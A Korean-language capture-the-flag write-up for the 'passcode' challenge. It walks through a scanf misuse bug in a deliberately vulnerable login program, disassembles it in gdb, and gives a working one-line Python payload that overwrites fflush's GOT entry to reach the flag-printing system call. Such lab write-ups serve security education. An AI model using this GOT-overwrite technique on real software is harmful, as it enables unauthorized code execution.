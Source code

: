 passcode Solution
===================

![](./images/1.png)

이번 passcode 문제는 ssh를 통해 접속해 flag를 얻어야 한다. 문제를 읽어보면 로그인 시스템을 구현해 놓았지만 컴파일 시 경고가 있었다는 것을 보면 취약점이 존재하는듯 하다. 자세한 내용은 접속해서 살펴본다.

![](./images/2.png)

사용자 정보와 현재 디렉터리 정보이다. 이전 문제들과 비슷하게 현재 권한으로 읽을 수 없는 flag 파일과 바이너리 passcode, 소스 코드 파일 passcode.c가 있다. passcode.c의 내용을 살펴보자.

- passcode.c 

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
    scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
        printf("Login OK!\n");
        system("/bin/cat flag");
    }
    else{
        printf("Login Failed!\n");
		exit(0);
    }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

passcode.c 는 welcome() 함수에서 사용자로부터 이름을 입력받고, login() 함수에서 두 passcode를 사용자로부터 입력받아 특정 정수 값과 비교해 일치하면 /bin/cat flag를 실행하고 있다. 이 코드에는 큰 결함이 존재한다. login() 함수의 두 scanf()에서 passcode1과 passcode2의 주소가 아닌 두 변수 자체를 인자로 전달하고 있는 것이다. 이 경우 접근할 수 없는 메모리에 접근을 시도하거나 메모리의 중요한 정보가 조작될 수 있다. 이 취약점을 exploit 하는 것을 목표로 디버깅을 시작한다. 

- asm code for welcome()

```assembly
Dump of assembler code for function welcome:
   0x08048609 <+0>:	push   %ebp
   0x0804860a <+1>:	mov    %esp,%ebp
   0x0804860c <+3>:	sub    $0x88,%esp
   0x08048612 <+9>:	mov    %gs:0x14,%eax
   0x08048618 <+15>:	mov    %eax,-0xc(%ebp)
   0x0804861b <+18>:	xor    %eax,%eax
   0x0804861d <+20>:	mov    $0x80487cb,%eax
   0x08048622 <+25>:	mov    %eax,(%esp)
   0x08048625 <+28>:	call   0x8048420 <printf@plt>
   0x0804862a <+33>:	mov    $0x80487dd,%eax
   0x0804862f <+38>:	lea    -0x70(%ebp),%edx
   0x08048632 <+41>:	mov    %edx,0x4(%esp)
   0x08048636 <+45>:	mov    %eax,(%esp)
   0x08048639 <+48>:	call   0x80484a0 <__isoc99_scanf@plt>
   0x0804863e <+53>:	mov    $0x80487e3,%eax
   0x08048643 <+58>:	lea    -0x70(%ebp),%edx
   0x08048646 <+61>:	mov    %edx,0x4(%esp)
   0x0804864a <+65>:	mov    %eax,(%esp)
   0x0804864d <+68>:	call   0x8048420 <printf@plt>
   0x08048652 <+73>:	mov    -0xc(%ebp),%eax
   0x08048655 <+76>:	xor    %gs:0x14,%eax
   0x0804865c <+83>:	je     0x8048663 <welcome+90>
   0x0804865e <+85>:	call   0x8048440 <__stack_chk_fail@plt>
   0x08048663 <+90>:	leave  
   0x08048664 <+91>:	ret   
```

<+38>에서 %esp+0x4 번지에 %ebp-0x70 을 대입하고 있다. 이는 welcome() 함수의 scanf()의 두 번째 인자로 들어갈 배열 name의 주소이다. 즉, %ebp-0x70은 name의 시작 주소이다. 

- asm code for login()

```assembly
Dump of assembler code for function login:
   0x08048564 <+0>:	push   %ebp
   0x08048565 <+1>:	mov    %esp,%ebp
   0x08048567 <+3>:	sub    $0x28,%esp
   0x0804856a <+6>:	mov    $0x8048770,%eax
   0x0804856f <+11>:	mov    %eax,(%esp)
   0x08048572 <+14>:	call   0x8048420 <printf@plt>
   0x08048577 <+19>:	mov    $0x8048783,%eax
   0x0804857c <+24>:	mov    -0x10(%ebp),%edx
   0x0804857f <+27>:	mov    %edx,0x4(%esp)
   0x08048583 <+31>:	mov    %eax,(%esp)
   0x08048586 <+34>:	call   0x80484a0 <__isoc99_scanf@plt>
   0x0804858b <+39>:	mov    0x804a02c,%eax
   0x08048590 <+44>:	mov    %eax,(%esp)
   0x08048593 <+47>:	call   0x8048430 <fflush@plt>
   0x08048598 <+52>:	mov    $0x8048786,%eax
   0x0804859d <+57>:	mov    %eax,(%esp)
   0x080485a0 <+60>:	call   0x8048420 <printf@plt>
   0x080485a5 <+65>:	mov    $0x8048783,%eax
   0x080485aa <+70>:	mov    -0xc(%ebp),%edx
   0x080485ad <+73>:	mov    %edx,0x4(%esp)
   0x080485b1 <+77>:	mov    %eax,(%esp)
   0x080485b4 <+80>:	call   0x80484a0 <__isoc99_scanf@plt>
   0x080485b9 <+85>:	movl   $0x8048799,(%esp)
   0x080485c0 <+92>:	call   0x8048450 <puts@plt>
   0x080485c5 <+97>:	cmpl   $0x528e6,-0x10(%ebp)
   0x080485cc <+104>:	jne    0x80485f1 <login+141>
   0x080485ce <+106>:	cmpl   $0xcc07c9,-0xc(%ebp)
   0x080485d5 <+113>:	jne    0x80485f1 <login+141>
   0x080485d7 <+115>:	movl   $0x80487a5,(%esp)
   0x080485de <+122>:	call   0x8048450 <puts@plt>
   0x080485e3 <+127>:	movl   $0x80487af,(%esp)
   0x080485ea <+134>:	call   0x8048460 <system@plt>
   0x080485ef <+139>:	leave  
   0x080485f0 <+140>:	ret    
   0x080485f1 <+141>:	movl   $0x80487bd,(%esp)
   0x080485f8 <+148>:	call   0x8048450 <puts@plt>
   0x080485fd <+153>:	movl   $0x0,(%esp)
   0x08048604 <+160>:	call   0x8048480 <exit@plt>
```

<+24>에서 첫 scanf()의 두 번째 인자로 전달될 passcode1 값을 %esp+0x4에 저장하고 있다. 즉, 로컬 변수 passcode1의 주소는 %ebp-0x10이다. (물론 welcome()에서의 %ebp 값과 login()에서의 %ebp 값은 다를 수 있다.) welcome()의 scanf() 입력 직후와 login() 첫 scanf() 입력 직전에 중단점을 걸어 프로그램을 실행해보자. 이 때 welcome()의 입력에서는 길이가 100인 문자열을 입력해본다. 

![](./images/3.png)

welcome()에서 배열 name의 마지막 4 byte 부분과 login()에서 passcode1의 주소가 겹치는 것을 확인할 수 있다. 이를 이용해 login()에서 scanf()에 전달될 두 번째 인자인 passcode1의 값을 원하는 주소 값으로 변경해 해당 주소에 원하는 값을 써 넣을 수 있다. 

이 passcode1의 값을 PLT 함수의 GOT 테이블 주소로 변경하면, 해당 GOT 테이블을 조작해 원하는 주소의 instruction을 임의로 실행할 수 있다.

첫 번째 scanf()의 실행 후 fflush() 함수의 PLT에 접근하므로 fflush() PLT의 GOT 테이블 주소를 name의 마지막 4바이트로 설정한다.

![](./images/4.png)

fflush() PLT의 GOT 테이블 주소는 0x0804a004 이다. passcode1 값을 이 값으로 바꾸어 GOT 테이블을 조작한다. 우리는 system("/bin/cat flag"); 를 실행하는 것이 목적이므로 login() 함수에서 해당 부분의 주소인 0x080485e3 를 입력 값으로 전달하면 정상적으로 /bin/cat flag가 실행될 것이다.

```bash
$ python -c 'print("a" * 96 + "\x04\xa0\x04\x08" + "134514147")' | ./passcode
```

GOT 테이블을 조작하는 scanf() 에서 형식이 %d로 지정되어 있으므로 0x080485e3을 십진수로 바꾸어 134514147로 입력했다. 

![](./images/5.png)

"Sorry mom.. ..."이 /bin/cat flag로 읽은 이번 문제의 flag이다. 